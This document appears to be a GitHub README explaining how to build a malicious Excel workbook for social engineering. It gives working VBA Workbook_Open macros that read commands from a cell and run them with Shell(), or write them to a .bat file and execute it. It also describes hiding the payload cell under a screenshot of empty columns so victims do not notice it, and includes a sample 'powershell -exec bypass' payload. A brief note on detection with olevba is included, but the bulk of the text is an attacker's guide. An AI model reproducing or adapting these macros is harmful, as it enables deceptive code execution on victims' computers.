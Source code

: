# Social Engineering Using Hidden Macros In Excel

NOTE: This method is detectable if the analysis or victim has any technical knowledge of macros. Simply running a tool such as oledump or olevba against the document will return the macros, though they won't immediately reveal any of the real activity.

All that will be shown is that the macros are extracting code from a specific column & executing it using Shell(), which is admittedly still suspicious:

![](/imgs/img1.png)

And if we navigate to BG1 which is where the code appears to be, we don't immediately see anything suspicious:

![](/imgs/img2.png)

But if you hover your mouse over BG1 (or simply look a little more closely & notice the misaligned columns), then you'll see that there's an image overlaying the code:

![](/imgs/img3.png)

![](/imgs/img4.png)

Obviously, someone with a bit more patience could perfect the screenshot of the empty columns & overlay it on top of the code to make it less noticable.

But then again, there's always the method of using `MsgBox` to reveal the code that is being extracted:

![](/imgs/img5.png)

# Crafting the Document

## What's Needed:

1. Screenshot of a set of empty columns to overlay on top of the code, example:

![](/imgs/img6.png)

2. Macros that extract the code from the workbook & run the data:

```
Private Sub Workbook_Open()
Data = Sheet1.Range("BG1")
Shell(Data)
End Sub
```

* Data = Sheet1.Range("BG1") Simply looks at the row located at BG1 & extracts whatever is in that row & places it inside the variable *Data*

3. Code that will be extracted & executed upon the document opening & the user clicking "Enable Content"

```
powershell.exe -exec bypass -C echo "Hello world" > C:\Users\Desktop\Conduct\Desktop\test.txt
```

After you've inserted the code into whatever column you'd like, simply insert the image of the empty columns over the code (Insert > Illustrations > Pictures)

Then insert the macros in ThisWorkbook & change the **Range()** part to match up with your column. So if you inserted the data in column A and it's on the 1st row, it'd be **Range("A1")**


## Writing Multiple Lines To a File

Writing multiple lines to a file is a piece of cake and only requires the addition of a few lines of code.

The macro code used is here:

```
Private Sub Workbook_Open()
1. Dim Path As String
2. Dim FileNumber As Integer
3. FileNumber = FreeFile
4. Data = Sheet1.Range("BG1")
5. Data2 = Sheet1.Range("BG2")
6. Path = "test.bat"
7. Open Path For Output As FileNumber
8.    Print #FileNumber, Data
9.    Print #FileNumber, Data2
10.    Close FileNumber
11. Shell(Path)
End Sub
```

* Lines 1-3 are static, keep those as is. They simply define the variables used
* Lines 4-6 are dynamic. You will want to change the strings in 4 & 5 to be where your code is located in terms of the excel worksheet. Change line 6 to the file path you desire.
* Lines 7-9 are also dynamic, they simply open the file & write to the file the data that has been extracted. Lines 8 & 9 in particular are the lines responsible for writing the data to the file.


Simply insert the code you want to write to a file into the workbook & take note of the column & row it's located in & change the Data & Data1 variable to match up with your column & row (and add more variables if needed). Then overlay the code in the workbook with the screenshot of the empty rows, and boom!

A sample document is available, I hope this all made sense.
